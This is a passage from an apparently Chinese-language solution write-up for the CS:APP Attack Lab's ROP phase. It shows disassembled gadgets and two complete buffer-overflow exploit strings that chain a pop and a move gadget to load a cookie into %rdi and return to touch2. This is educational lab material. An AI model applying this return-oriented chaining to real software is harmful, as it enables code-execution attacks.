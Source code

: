 - 在这一步中，我们重复level2的攻击，但是需要在rtarget中利用rop完成攻击，并且只能使用两个gadget。
- level2主要目的就是将cookie放入%rdi寄存器中，然后ret到touch2地址。
解答：将cookie放入%rdi寄存器中有两种思路：1. `mov %1, %rdi`，由于无法指定%1为cookie的值，此种方法不合适。2. `pop %rdi`，当执行该指令的时候会将栈上的内容弹出放入到%rdi中，所以可以通过栈溢出将当前栈上的内容以cookie覆盖即可。所以我们只需要找`pop %rdi; ret`也就是`5f c3`的指令即可。但是通过查找farm中的gadget发现并没有`5f c3`指令，只能通过间接方式来对%rdi进行赋值。思路是`pop %reg; movq %reg %rdi`。以%reg为%rax为例，我们只需要找到`58; 49 89 c7`即可。
```bash
00000000004019a7 <addval_219>:  
 4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax  # 58 90为popq %rax; nop
 4019ad:       c3

00000000004019c3 <setval_426>:  
 4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)  # 48 89 c7 90为movq %rax %rdi; nop
 4019c9:       c3
```
于是exploit string可以是：
```bash
AB AB AB AB AB AB AB AB  
AB AB AB AB AB AB AB AB  
AB AB AB AB AB AB AB AB  
AB AB AB AB AB AB AB AB  
AB AB AB AB AB AB AB AB  
AB 19 40 00 00 00 00 00  # popq %raxl; nop的地址
FA 97 B9 59 00 00 00 00  # cookie
C5 19 40 00 00 00 00 00  # movq %rax %rdi; nop; ret
EC 17 40 00 00 00 00 00  # touch2的地址
```
如果不按题目的限制，可以只用用`5f popd %rdi`指令：`401419:       69 c0 5f c3 00 00       imul   $0xc35f,%eax,%eax`。
exploit string可以是：
```bash
ab ab ab ab ab ab ab ab  
ab ab ab ab ab ab ab ab  
ab ab ab ab ab ab ab ab  
ab ab ab ab ab ab ab ab  
ab ab ab ab ab ab ab ab  
1B 14 40 00 00 00 00 00  
fa 97 b9 59 00 00 00 00  
ec 17 40 00 00 00 00 00
```
##### level5
自己想
